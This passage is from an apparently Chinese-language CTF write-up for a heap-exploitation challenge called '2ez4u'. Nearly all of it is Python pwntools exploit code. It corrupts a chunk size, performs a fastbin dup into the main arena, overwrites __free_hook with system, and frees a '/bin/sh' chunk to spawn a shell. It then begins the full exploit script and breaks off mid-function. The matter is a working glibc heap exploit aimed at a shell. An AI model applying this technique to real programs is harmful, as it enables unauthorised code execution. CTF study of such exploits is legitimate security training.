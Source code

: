现在libc的地址也拿到了,我们考虑通过fastbin attack去改arena的top到freehook上方,然后不断malloc从而写system到freehook

```python
#修改unsorted bin 的大小为0x50
edit(0,'Q'*(8+0x90)+p64(0)+p64(0x51)+p64(libc_base+main_arena+88)*2+'a'*0x30+p64(0x50)+p64(0x50))

#得到大小为0x50的chunk
add(0x30,'7')#7 vuln
#删除0x60的chunk,从而利用heap地址最高位的0x56(成功)/0x55(失败)在arena中fastbin attack
dele(9)#0x56 in arena
#造出fastbin
dele(7)
#fastbin dup
edit(0,'Q'*(8+0x90)+p64(0)+p64(0x51)+p64(libc_base+main_arena+0x25))
add(0x30,'7')#7
freehook = libc_base+libc.sym['__free_hook']
pay = '\x00'*(0x23-0x18)+p64(freehook-0xb58)
try:
	add(0x30,pay)
except:
	error('unlucky 0x55 :(')
success('lucky!! 0x56!!')

#靠近freehook
add(0x3d0,'\x00')
add(0x3d0,'\x00')
add(0x300,'\x00')
# 改写 freehook
pay = '\x00'*(0x50-0x20)+p64(libc_base+libc.sym['system'])
add(0x2e0,pay)

#改写chunk 7的内容
edit(0,'Q'*(8+0x90)+'X'*0x10+'/bin/sh\x00')
#system("/bin/sh")
dele(7)
cn.interactive()
```

---

完整exp如下

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
	cn = process('./2ez4u')
	#bin = ELF('./2ez4u')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	pass


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()


def add(Len, con):
	cn.recvuntil('your choice:')
```